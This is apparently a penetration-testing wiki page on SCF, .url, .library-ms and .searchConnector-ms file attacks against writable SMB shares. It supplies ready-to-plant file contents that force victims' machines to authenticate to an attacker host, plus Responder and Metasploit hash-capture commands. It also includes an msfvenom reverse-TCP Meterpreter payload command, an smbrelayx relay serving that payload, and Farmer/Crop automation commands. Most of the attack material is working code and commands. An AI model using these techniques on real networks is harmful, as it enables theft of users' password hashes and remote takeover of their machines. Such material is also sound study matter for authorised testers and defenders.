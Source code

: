 # SCF File Attacks

SMB is a protocol which is widely used across organisations for file sharing purposes. It is not uncommon during internal penetration tests to discover a file share which contains sensitive information such as plain-text passwords and database connection strings. However even if a file share doesn’t contain any data that could be used to connect to other systems but it is configured with write permissions for unauthenticated users then it is possible to obtain passwords hashes of domain users or Meterpreter shells.

## <mark style="color:red;">Gathering Hashes</mark>

It is not new that SCF (Shell Command Files) files can be used to perform a limited set of operations such as showing the Windows desktop or opening a Windows explorer. However a SCF file can be used to access a specific UNC path which allows the penetration tester to build an attack. The code below can be placed inside a text file which then needs to be planted into a network share.

### <mark style="color:orange;">SCF Files</mark>

Drop the following `@something.scf` file inside a share and start listening with Responder : `responder -wrf --lm -v -I eth0`

```
[Shell]
Command=2
IconFile=\\X.X.X.X\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```

Saving the file as SCF file will make the file to be executed when the user will browse the file. Adding the @ symbol in front of the filename will place the file.scf on the top of the share drive.

### <mark style="color:orange;">**URL Files**</mark>

This attack also works with `.url` files and `responder -I eth0 -v`.

```
[InternetShortcut]
URL=whatever
WorkingDirectory=whatever
IconFile=\\10.10.10.10\%USERNAME%.icon
IconIndex=1
```

### <mark style="color:orange;">**Windows Library Files**</mark>

Windows Library Files (.library-ms)

```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="<http://schemas.microsoft.com/windows/2009/library>">
  <name>@windows.storage.dll,-34582</name>
  <version>6</version>
  <isLibraryPinned>true</isLibraryPinned>
  <iconReference>imageres.dll,-1003</iconReference>
  <templateInfo>
    <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
  </templateInfo>
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <isDefaultSaveLocation>true</isDefaultSaveLocation>
      <isSupported>false</isSupported>
      <simpleLocation>
        <url>\\\\workstation@8888\\folder</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>
```

### <mark style="color:orange;">**Windows Search Connectors Files**</mark>

Windows Search Connectors (.searchConnector-ms)

```
<?xml version="1.0" encoding="UTF-8"?>
<searchConnectorDescription xmlns="<http://schemas.microsoft.com/windows/2009/searchConnector>">
    <iconReference>imageres.dll,-1002</iconReference>
    <description>Microsoft Outlook</description>
    <isSearchOnlyItem>false</isSearchOnlyItem>
    <includeInStartMenuScope>true</includeInStartMenuScope>
    <iconReference>\\\\workstation@8888\\folder.ico</iconReference>
    <templateInfo>
        <folderType>{91475FE5-586B-4EBA-8D75-D17434B8CDF6}</folderType>
    </templateInfo>
    <simpleLocation>
        <url>\\\\workstation@8888\\folder</url>
    </simpleLocation>
</searchConnectorDescription>
```

Responder needs to be executed with the following parameters to capture the hashes of the users that will browse the share.

```
responder -wrf --lm -v -I vboxnet0
```

![](<../../../.gitbook/assets/image (257).png>)

When the user will browse the share a connection will established automatically from his system to the UNC path that is contained inside the SCF file. Windows will try to authenticate to that share with the username and the password of the user. During that authentication process a random 8 byte challenge key is sent from the server to the client and the hashed NTLM/LANMAN password is encrypted again with this challenge key. Responder will capture the NTLMv2 hash.

![](<../../../.gitbook/assets/image (251).png>)

Alternatively to Responder, Metasploit Framework has a module which can be used to capture challenge-response password hashes from SMB clients.

```
auxiliary/server/capture/smb
```

![](<../../../.gitbook/assets/image (249).png>)

As previously when the user will browse the same share his password hash will be captured by Metasploit.

![](<../../../.gitbook/assets/image (252).png>)

If the password policy inside the company is sufficient it will take possibly days or weeks for the attacker to crack the captured hash.

## <mark style="color:red;">Meterpreter Shells</mark>

The main advantage of the technique above it that it doesn’t require any user interaction and automatically enforces the user to connect to a share the doesn’t exist negotiating his NTLMv2 hash. Therefore it is also possible to combine this technique with SMB relay that will serve a payload in order to retrieve a Meterpreter shell from every user that will access the share.

MSFVenom can be used to generate the payload that it will executed on the target:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.171 LPORT=5555 -f exe > pentestlab.exe
```

Coresecurity has released a set of python scripts called [Impacket](https://github.com/CoreSecurity/impacket) that can perform various attacks against Windows protocols such as SMB. Using the **smbrelayx** python script it is possible to set up and SMB server that will serve a payload when the target host will try to connect. This will performed automatically since the SCF file will enforce every to user to connect to a non-existing share with their credentials.

```
./smbrelayx.py -h Target-IP -e ./pentestlab.exe
```

![](<../../../.gitbook/assets/image (255).png>)

Metasploit Framework needs to be used as well in order to receive back the connection upon execution of the pentestlab.exe on the target.

![](<../../../.gitbook/assets/image (247).png>)

When the user will browse the share the SMB server will receive the connection and it will use the username and the password hash to authenticate with his system and execute the payload to a writable share.

![](<../../../.gitbook/assets/image (253).png>)

A Meterpreter session will received. However in order to avoid losing the connection it is necessary to migrate to a more stable process.

## <mark style="color:red;">Automation</mark>

Theses attacks can be automated with [Farmer.exe](https://github.com/mdsecactivebreach/Farmer) and [Crop.exe](https://github.com/mdsecactivebreach/Farmer/tree/main/crop)

```
# Farmer to receive auth
farmer.exe <port> [seconds] [output]
farmer.exe 8888 0 c:\windows\temp\test.tmp # undefinitely
farmer.exe 8888 60 # one minute

# Crop can be used to create various file types that will trigger SMB/WebDAV connections for poisoning file shares during hash collection attacks
crop.exe <output folder> <output filename> <WebDAV server> <LNK value> [options]
Crop.exe \\\\fileserver\\common mdsec.url \\\\workstation@8888\\mdsec.ico
Crop.exe \\\\fileserver\\common mdsec.library-ms \\\\workstation@8888\\mdsec
```
